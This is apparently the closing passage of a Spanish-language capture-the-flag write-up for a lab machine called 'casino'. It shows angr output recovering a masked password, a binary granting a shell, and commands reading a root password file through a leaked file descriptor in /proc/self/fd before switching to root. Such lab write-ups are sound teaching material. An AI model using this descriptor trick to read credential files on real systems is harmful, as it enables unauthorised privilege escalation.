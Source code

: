Tras ejecutarlo, obtengo la contraseña.

```
$ python3 symbolic.py 
WARNING  | 2023-07-05 12:41:43,469 | angr.storage.memory_mixins.default_filler_mixin | The program is accessing memory with an unspecified value. This could indicate unwanted behavior.
WARNING  | 2023-07-05 12:41:43,469 | angr.storage.memory_mixins.default_filler_mixin | angr will cope with this by generating an unconstrained symbolic variable and continuing. You can resolve this by:
WARNING  | 2023-07-05 12:41:43,469 | angr.storage.memory_mixins.default_filler_mixin | 1) setting a value to the initial state
WARNING  | 2023-07-05 12:41:43,469 | angr.storage.memory_mixins.default_filler_mixin | 2) adding the state option ZERO_FILL_UNCONSTRAINED_{MEMORY,REGISTERS}, to make unknown regions hold null
WARNING  | 2023-07-05 12:41:43,469 | angr.storage.memory_mixins.default_filler_mixin | 3) adding the state option SYMBOL_FILL_UNCONSTRAINED_{MEMORY,REGISTERS}, to suppress these messages.
WARNING  | 2023-07-05 12:41:43,470 | angr.storage.memory_mixins.default_filler_mixin | Filling memory at 0x7fffffffffeff80 with 1 unconstrained bytes referenced from 0x589e40 (strlen+0x0 in libc.so.6 (0x89e40))
WARNING  | 2023-07-05 12:41:45,686 | angr.storage.memory_mixins.default_filler_mixin | Filling memory at 0x7fffffffffefeff with 1 unconstrained bytes referenced from 0x4016d7 (main+0x51 in pass (0x16d7))
[+] Success! Solution is: ihope*********************
```

De vuelta en la máquina casino, introducimos las dos contraseñas y se nos abre una shell.

```
shimmer@casino:~$ ./pass 
Passwd: ihope*********************
Correct pass
Second Passwd: ultra**************
$
```

Anteriormente he visto que el archivo "/opt/root.pass" se había abierto dentro del binario y no se había cerrado, por lo que todavía es accesible desde la shell que acabamos de obtener. Lo podemos encontrar en "/proc/self/fd" y leerlo de la siguiente manera.

```
$ cd /proc/self/fd
$ ls -l
total 0
0 lrwx------ 1 shimmer shimmer 64 jul  5 12:56 0 -> /dev/pts/0
0 lrwx------ 1 shimmer shimmer 64 jul  5 12:56 1 -> /dev/pts/0
0 lrwx------ 1 shimmer shimmer 64 jul  5 12:56 10 -> /dev/tty
0 lrwx------ 1 shimmer shimmer 64 jul  5 12:56 2 -> /dev/pts/0
0 lr-x------ 1 shimmer shimmer 64 jul  5 12:56 3 -> /opt/root.pass
$ cat <&3
m**********
[...]
shimmer@casino:~$ su root
Contraseña: 
root@casino:/home/shimmer# :)
```

## Fin

Espero que os haya gustado. :)
